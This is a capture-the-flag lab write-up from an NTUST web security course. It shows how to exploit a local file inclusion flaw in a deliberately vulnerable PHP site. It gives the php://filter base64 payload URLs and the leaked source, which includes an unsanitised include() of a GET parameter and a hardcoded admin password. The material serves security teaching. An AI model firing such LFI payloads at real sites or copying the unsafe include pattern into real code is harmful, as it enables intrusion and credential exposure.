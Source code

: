 ```yaml
---
title: Simple Web 0x08(Lab - My First Meow Website)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/LFI"
---
```


# Simple Web 0x08(Lab - My First Meow Website)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8400/
Target: Login as Admin

## Background
[PHP 偽協議 (一) ](https://ithelp.ithome.com.tw/articles/10245020)
[Web Security 0x1](https://youtu.be/_hasOTGximc?t=2855)

## Exploit
1. Observe
According to the URL, `http://h4ck3r.quest:8400/?page=inc/home`, it might have `LFI` problem.
2. Use `php://filter` to read page
    `http://h4ck3r.quest:8400/?page=php://filter/convert.base64-encode/resource=inc/home`
    :::spoiler page source code
    ```php=
    <!DOCTYPE html>
    <html lang="en">

    <head>
        <meta charset="UTF-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Meow</title>
        <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.2/css/bulma.min.css">
    </head>

    <body>
        <nav class="navbar is-dark" role="navigation" aria-label="main navigation">
            <div class="navbar-brand">
                <a class="navbar-item" href="/?page=inc/home">🐱</a>
            </div>

            <div id="navbarBasicExample" class="navbar-menu">
                <div class="navbar-start">
                    <a class="navbar-item" href="/?page=inc/home">
                        Home
                    </a>
                    <a class="navbar-item" href="/?page=inc/about">
                        About
                    </a>
                    <a class="navbar-item" href="/admin.php">
                        Admin
                    </a>
                </div>
            </div>
        </nav>

        <div class="container" style="margin-top: 1em;">
            <?php
            if (isset($_GET['page']))
                include($_GET['page'] . ".php");
            else
                include("inc/home.php");
            ?>
        </div>
    </body>

    </html>
    ```
    :::
3. Observe page source code
We know that `admin.php` is under `/` directory.
`http://h4ck3r.quest:8400/?page=php://filter/convert.base64-encode/resource=admin`
    :::spoiler admin source code
    ```php=
    <h1>Admin Panel</h1>
    <form>
        <input type="text" name="username" value="admin">
        <input type="password" name="password">
        <input type="submit" value="Submit">
    </form>

    <?php
    $admin_account = array("username" => "admin", "password" => "kqqPFObwxU8HYo8E5QgNLhdOxvZmtPhyBCyDxCwpvAQ");
    if (
        isset($_GET['username']) && isset($_GET['password']) &&
        $_GET['username'] === $admin_account['username'] && $_GET['password'] === $admin_account['password']
    ) {
        echo "<h1>LOGIN SUCCESS!</h1><p>".getenv('FLAG')."</p>";
    }

    ?>
    ```
    :::
4. Then we get admin password is: `kqqPFObwxU8HYo8E5QgNLhdOxvZmtPhyBCyDxCwpvAQ`. Then we got flag!!!